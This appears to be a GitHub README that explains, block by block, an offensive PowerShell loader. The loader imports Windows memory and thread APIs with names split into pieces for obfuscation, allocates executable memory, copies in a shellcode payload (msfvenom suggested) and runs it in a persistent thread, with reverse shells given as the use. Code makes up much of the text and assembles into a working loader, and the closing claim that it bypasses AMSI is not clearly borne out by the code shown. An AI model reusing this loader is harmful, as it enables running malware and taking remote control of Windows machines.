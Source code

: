 # Powershell_Rev_Scripts
## Explanation
# 1.
```powershell
$pythonmods = @"
using System;
using System.Runtime.InteropServices;
...
```
A variable called pythonmods is created and is a string that holds multiple lines of code emphasized by the '@"' or here strings. It includes the System and System.Runtime.InteropServices namespace.

# 2.
```powershell
public class K2 {
    [DllImport("kernel32", EntryPoint="Get" + "Proc" + "Address")]
    public static extern IntPtr gpa(IntPtr hModule, string procName);
    [DllImport("kernel32", EntryPoint="Load" + "Library")]
    public static extern IntPtr ll(string name);
    [DllImport("kernel32", EntryPoint="Virtual" + "Protect")]
    public static extern bool vp(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```
This part of the code defines a class named K2, which calls Windows API functions using DllImport. 
The first import is "GetProcAddress," which is obfuscated by splitting into "Get" + "Proc" + "Address." 
- This import is used to get the address
The second import is "LoadLibrary" obfuscated by splitting into "Load" + "Library".
- This import is to load a dynamic link library, also known as a DLL, into memory
The third import is "VirtualProtect" obscured by splitting into "Virtual" + "Protect".
- This import is used to modify a region of memory's protection, ie, making it writable, executable, etc.

# 3.
```powershell
[DllImport("kernel32", SetLastError = true)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out IntPtr lpThreadId
    );
```
This method creates a method called CreateThread, which executes code at the address specified by lpStartAddress

# 4.
```powershell
[DllImport("kernel32", EntryPoint="Virtual" + "Alloc")]
    public static extern IntPtr va(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

    public static void Copy(Byte[] source, Int32 startIndex, IntPtr destination, Int32 length) {
        Marshal.Copy(source, startIndex, destination, length);
    }
}
"@
```
The import is "VirtualAlloc" obfuscated by splitting into "Virtual" + "Alloc".
- This import is used to allocate memory for our shellcode
The helper function Copy is used to copy bytes to a specific memory location

# 5.
```powershell
Add-Type -TypeDefinition $pythonmods -Language CSharp
```
This tells PowerShell to add the type definition $pythonmods, specify the code as C#, and compile it. 

# 6.
```powershell
$pl = [Byte[]] (
    # Enter Payload Here
)
```
This part is where to add the payload, such as Msfvenom

# 7.
```powershell
$plSize = $pl.Length

$mem = [K2]::va([IntPtr]::Zero, [UIntPtr]::new($plSize), 0x3000, 0x40)

[K2]::Copy($pl, 0, $mem, $plSize)
```
First, calculate the size of the payload in bytes and store it as $plSize
Next, allocate memory for the payload using the VirtualAlloc function with the va method. Add the allocation type 0x3000, which means to have the memory region both reserved and committed.
- 0x1000 (MEM_COMMIT)
    - Flag used to allocate physical storage
- 0x2000 (MEM_RESERVE)
    - Flag that reserves memory space and saves it for future use
Add the protection flag 0x40, which indicates PAGE_EXECUTE_READWRITE, meaning the memory can be executed, read, and written to.
Next, copy the payload into the allocated memory.

# 8.
```powershell
$oldProtect = 0
$protectionResult = [K2]::vp($mem, [UIntPtr]::new($plSize), 0x40, [ref]$oldProtect)
```
Changes the allocated memory protection to 0x40, which allows the payload to execute as soon as it's copied into memory. The vp method is called to ensure the memory is executable.

# 9.
```powershell
$threadId = [IntPtr]::Zero
$hThread = [K2]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [ref]$threadId)
```
Creates a thread that executes at the allocated memory where the copied payload resides. 

# 10.
```powershell
while ($true) {
    Start-Sleep -Seconds 60
}
```
Infinite loop that waits 60 seconds between each iteration of the loop

# Conclusion
This script bypasses Windows AMSI and executes shellcode using PowerShell. Even if the PowerShell window is given the command Ctrl-C, it will continue to run in the background. 
- Terminating the Process
    - Terminate the thread or PowerShell itself using Task Manager.
    - After the shell code finishes it should cause the thread to terminate
        - Ex. Reverse Shell, after the attacker terminates the session, the thread should also be terminated
